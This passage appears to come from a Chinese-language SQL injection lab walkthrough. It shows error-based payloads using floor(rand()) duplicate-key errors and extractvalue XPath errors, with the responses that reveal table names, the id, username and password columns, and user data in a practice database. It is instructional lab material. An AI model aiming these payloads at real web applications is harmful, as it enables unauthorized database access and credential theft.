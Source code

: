    ```sql
   ?id=1' union select 1 from (select count(*),concat((select table_name from information_schema.tables where table_schema='security' limit 3,1),floor(rand(0)*2))x from information_schema.schemata group by x)y --+
   	Duplicate entry 'users1' for key 'group_key'
   
   ?id=1' union select 1 from (select count(*),concat((select table_name from information_schema.tables where table_schema='security' limit 4,1),floor(rand(0)*2))x from information_schema.schemata group by x)y --+
   	The used SELECT statements have a different number of columns
   ```

   爆列名：

   ```sql
   ?id=1' union select 1 from (select count(*),concat((SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users' LIMIT 0,1),floor(rand(0)*2))x from information_schema.schemata group by x)y --+
   	Duplicate entry 'id1' for key 'group_key' # 列名为id
   
   ?id=1' union select 1 from (select count(*),concat((SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users' LIMIT 1,1),floor(rand(0)*2))x from information_schema.schemata group by x)y --+
   	Duplicate entry 'username1' for key 'group_key' # 列名为username
   	
   ?id=1' union select 1 from (select count(*),concat((SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users' LIMIT 2,1),floor(rand(0)*2))x from information_schema.schemata group by x)y --+
       Duplicate entry 'password1' for key 'group_key' # 列名为password
       
   ?id=1' union select 1 from (select count(*),concat((SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users' LIMIT 3,1),floor(rand(0)*2))x from information_schema.schemata group by x)y --+
       The used SELECT statements have a different number of columns # 未报错，说明子查询返回了空表，说明列名已经爆完
   ```

   爆数据：

   ```sql
   ?id=1' union select 1 from (select count(*),concat((SELECT username FROM users LIMIT 0,1),floor(rand(0)*2))x from users group by x)y --+
   	Duplicate entry 'Dumb1' for key 'group_key'
   ```

2. 解法二 XPath注入

   以下步骤的原理详见[3.1.2 XPath注入](#3.1.2 XPath注入)。

   爆数据库名：

   ```sql
   payload = ?id=1' and extractvalue('',concat(0x30,(select database())))--+
   	XPATH syntax error: 'security'
   ```

   爆表名：
